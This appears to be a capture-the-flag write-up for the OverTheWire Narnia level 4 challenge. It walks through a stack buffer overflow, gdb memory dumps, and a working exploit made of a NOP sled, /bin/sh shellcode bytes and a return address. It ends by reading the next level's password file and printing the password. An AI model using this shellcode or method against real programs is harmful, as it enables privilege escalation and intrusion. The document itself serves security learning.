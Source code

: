 # Writeup for Narnia 4
So we analyze the C code and we see this

```text
    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

```
All this is doing is setting each individual char in the ith environ string to /0 and environ is an array of string literals. 
Okie, let's see something else

We find the offset is 264 and we are able to get buffer overflow

## Proof of Concept
```text
┌──(hanoz㉿kali)-[~/Desktop/htb/challenges/narnia]
└─$ python -c 'print "A"*264 + "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Cool, gg now we just need to figure out where to direct stuff. to get shell. 

Let's just find shellcode in the stack? I don't see how we can write into the env variable so 

## Completed Exploit

Let's make the NOP sled and then the shellcode
```text
python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "\xd8\xd7\xff\xff"' 
```

Let's also get the value of the address where we can hit the NOP sled.
To do this, we set a breakpoint before strcpy and then execute the buffer overflow payload. Now we just search everything below EBP and we will eventually get the buffer.
```text
(gdb)  r `python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "BBBB"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 `python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "BBBB"'`

Breakpoint 1, 0x08048524 in main ()
(gdb) x/200xw $ebp
0xffffd5b8:     0x80cd0bb0      0x42424242      0x00000000      0xffffd654
0xffffd5c8:     0xffffd660      0x00000000      0x00000000      0x00000000
0xffffd5d8:     0xf7fc5000      0xf7ffdc0c      0xf7ffd000      0x00000000
0xffffd5e8:     0x00000002      0xf7fc5000      0x00000000      0x4e5b4439
0xffffd5f8:     0x74b44829      0x00000000      0x00000000      0x00000000
0xffffd608:     0x00000002      0x080483b0      0x00000000      0xf7fee710
0xffffd618:     0xf7e2a199      0xf7ffd000      0x00000002      0x080483b0
0xffffd628:     0x00000000      0x080483d1      0x080484ab      0x00000002
0xffffd638:     0xffffd654      0x08048530      0x08048590      0xf7fe9070
0xffffd648:     0xffffd64c      0xf7ffd920      0x00000002      0xffffd780
0xffffd658:     0xffffd790      0x00000000      0xffffd89d      0xffffd8b0
0xffffd668:     0xffffde6c      0xffffdea1      0xffffdeb0      0xffffdec1
0xffffd678:     0xffffded6      0xffffdee3      0xffffdeef      0xffffdef8
0xffffd688:     0xffffdf0b      0xffffdf2d      0xffffdf40      0xffffdf4c
0xffffd698:     0xffffdf63      0xffffdf73      0xffffdf87      0xffffdf92
0xffffd6a8:     0xffffdf9a      0xffffdfaa      0x00000000      0x00000020
0xffffd6b8:     0xf7fd7c90      0x00000021      0xf7fd7000      0x00000010
0xffffd6c8:     0x178bfbff      0x00000006      0x00001000      0x00000011
0xffffd6d8:     0x00000064      0x00000003      0x08048034      0x00000004
0xffffd6e8:     0x00000020      0x00000005      0x00000008      0x00000007
0xffffd6f8:     0xf7fd9000      0x00000008      0x00000000      0x00000009
0xffffd708:     0x080483b0      0x0000000b      0x000036b4      0x0000000c
0xffffd718:     0x000036b4      0x0000000d      0x000036b4      0x0000000e
0xffffd728:     0x000036b4      0x00000017      0x00000001      0x00000019
0xffffd738:     0xffffd76b      0x0000001a      0x00000000      0x0000001f
0xffffd748:     0xffffdfe8      0x0000000f      0xffffd77b      0x00000000
0xffffd758:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd768:     0x1d000000      0x629fdfbc      0x73e358f8      0x72dddffd
0xffffd778:     0x692dc22a      0x00363836      0x72616e2f      0x2f61696e
0xffffd788:     0x6e72616e      0x00346169      0x90909090      0x90909090
0xffffd798:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd7a8:     0x90909090      0x90909090      0x90909090      0x90909090
```

Here we have it, I have a random address in the sled 0xffffd7d8.

GG, now we send the payload and we have shell. 

```text
narnia4@narnia:/narnia$ ./narnia4 `python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "\xd8\xd7\xff\xff"'`
$ cat /etc/narnia_pass/narnia5
faimahchiy
```

The password to the next level is 
```
faimahchiy
```

